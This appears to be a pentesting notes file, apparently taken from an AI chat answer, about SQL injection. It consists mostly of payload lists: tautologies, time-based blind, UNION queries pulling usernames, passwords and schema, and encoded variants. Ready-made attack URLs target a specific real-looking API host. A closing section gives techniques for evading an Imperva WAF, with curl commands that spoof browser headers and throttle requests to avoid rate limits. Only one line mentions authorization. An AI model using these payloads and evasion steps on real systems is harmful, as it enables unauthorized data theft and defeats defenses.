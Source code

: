 To test for SQL injection vulnerabilities by appending common payloads to the URL, you can try the following common SQL injection payloads. Each one should be appended as a query parameter or applied in the appropriate field of the API request.

Here is a list of SQL injection payloads to test for different scenarios:
1. Basic SQL Injection

' OR '1'='1' --
' OR 1=1 --
' OR 'x'='x' --
' OR 1=1# 
' OR 1=1/* 

2. Time-Based Blind SQL Injection
(Payloads to test for blind injection by introducing a delay)

' OR IF(1=1, SLEEP(5), 0) --
' OR IF(1=2, SLEEP(5), 0) --
' OR 1=1 AND SLEEP(5) --
' OR 1=2 AND SLEEP(5) --

3. Union-based SQL Injection
(Common to test for union queries that can be used to retrieve data from the database)

' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' UNION SELECT table_name, column_name FROM information_schema.columns --

4. Error-Based SQL Injection
(Payloads to trigger errors in the SQL server and potentially reveal useful information)

' AND 1=1 --
' AND 1=2 --
' ' AND 1=1 --
' ' AND 1=2 --

5. Comment-Based SQL Injection
(Injecting comments to bypass query logic)

' -- 
' #
' /* 

6. Multiple Payload Variations

' OR 'a'='a' --
' AND 1=1 --
' AND 1=2 --
' OR 1=1 --
' AND 'a'='a' --
' AND 'a'='b' --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password='password') --

7. SQL Injection with Hex Encoding
(Sometimes using hex encoding can bypass filters)

%27%20OR%20%271%27%3D%271%27%20--
%27%20OR%201%3D1%20--
%27%20OR%20%27x%27%3D%27x%27%20--

8. Testing for Specific Database Error Messages

' OR 1=1 --
' OR 1=1 --
' AND 1=1 --
' OR '1'='1' --

## Example URLs for Testing
If the API endpoint looks like https://api.eu.app.varonis.io/resource, you can append these payloads to test them:

    Basic SQL Injection:

https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --
https://api.eu.app.varonis.io/resource?param=' OR 1=1 --

Union-based SQL Injection:

https://api.eu.app.varonis.io/resource?param=' UNION SELECT NULL, NULL, NULL --
https://api.eu.app.varonis.io/resource?param=' UNION SELECT 1, 2, 3 --

Error-Based SQL Injection:

https://api.eu.app.varonis.io/resource?param=' AND 1=2 --
https://api.eu.app.varonis.io/resource?param=' AND 1=1 --

Time-Based Blind Injection:

    https://api.eu.app.varonis.io/resource?param=' OR IF(1=1, SLEEP(5), 0) --
    https://api.eu.app.varonis.io/resource?param=' OR IF(1=2, SLEEP(5), 0) --

Important Notes

    Testing Safely: Only test on endpoints you have permission to assess. Testing without authorization is illegal and unethical.
    Monitor for Errors: If error messages or unexpected behavior are encountered, they can indicate potential vulnerabilities.
    Response Behavior: Watch for long response times, changes in output, or unexpected results that could suggest the system is processing the SQL injection query.

If you need further help with setting up these tests or analyzing responses, feel free to ask!



## list of SQL injection payloads:
' OR '1'='1' --
' OR 1=1 --
' OR 'x'='x' --
' OR 1=1# 
' OR 1=1/* 
' OR IF(1=1, SLEEP(5), 0) --
' OR IF(1=2, SLEEP(5), 0) --
' OR 1=1 AND SLEEP(5) --
' OR 1=2 AND SLEEP(5) --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' UNION SELECT table_name, column_name FROM information_schema.columns --
' AND 1=1 --
' AND 1=2 --
' ' AND 1=1 --
' ' AND 1=2 --
' -- 
' #
' /* 
'/**/OR/**/1=1--
' OR 'a'='a' --
' AND 1=1 --
' AND 1=2 --
' OR 1=1 --
' AND 'a'='a' --
' AND 'a'='b' --
' UNION SELECT NULL, NULL, NULL --
' UNION SELECT 1, 2, 3 --
' UNION SELECT username, password FROM users --
' OR EXISTS(SELECT * FROM users WHERE username='admin' AND password='password') --
%27%20OR%20%271%27%3D%271%27%20--
%27%20OR%201%3D1%20--
%27%20OR%20%27x%27%3D%27x%27%20--
%27%20OR%20%271%27%3D%271%27%20--
' OR 1=1 --
' OR 1=1 --
' AND 1=1 --
' OR '1'='1' --


# WAF Blocking Your Tests?
Imperva WAF uses:
    Signature-based Detection: Identifies known SQL injection patterns.
    Anomaly Detection: Tracks unusual activity or traffic patterns.
    Rate Limiting: Restricts requests if they exceed a defined threshold.
    IP Reputation and Blacklisting: Blocks requests from known malicious IP addresses.
    Behavioral Analysis: Detects unusual API usage.

- Bypassing WAF Responsibly
1. Obfuscate SQL Injection Payloads
WAFs look for specific patterns; obfuscating payloads might bypass detection:
    Case Alteration:
' Or '1'='1' --
' oR '1'='1' --
URL Encoding:
%27%20OR%20%271%27%3D%271%27%20--
Double Encoding:
%2527%2520OR%25201%253D1%2520--
Inline Comments:
    '/*comment*/OR/*comment*/'1'='1'--

2. Modify Query Structure
Try payloads that alter query structures in less predictable ways:
    Using string concatenation:
' OR '1'='1' AND 'a'+'b'='ab'--
Testing alternate logical operators:
    ' AND 1=1 --
    ' || '1'='1' --

3. Test WAF Behavior with Time-Based Payloads
Imperva WAF might block specific payloads but may not detect delayed responses:
    Check response times to infer blind SQL injection:
    ' OR IF(1=1, SLEEP(5), 0)--
    ' OR BENCHMARK(1000000, MD5('test'))--

4. Use Legitimate Traffic Headers
Add common headers to make your traffic appear legitimate:
curl -I -H "User-Agent: Mozilla/5.0" \
     -H "Referer: https://api.eu.app.varonis.io/" \
     -H "Accept: application/json" \
     "https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --"

5. Slow Down Requests
Throttle the request rate to avoid triggering the WAF rate-limiting mechanism:
sleep 2 && curl "https://api.eu.app.varonis.io/resource?param=' OR '1'='1' --"

# Bypassing WAF List
' Or '1'='1' --
' oR '1'='1' --
%27%20OR%20%271%27%3D%271%27%20--
%2527%2520OR%25201%253D1%2520--
'/*comment*/OR/*comment*/'1'='1'--
' OR '1'='1' AND 'a'+'b'='ab'--
' AND 1=1 --
' || '1'='1' --
' OR IF(1=1, SLEEP(5), 0)--
' OR BENCHMARK(1000000, MD5('test'))--

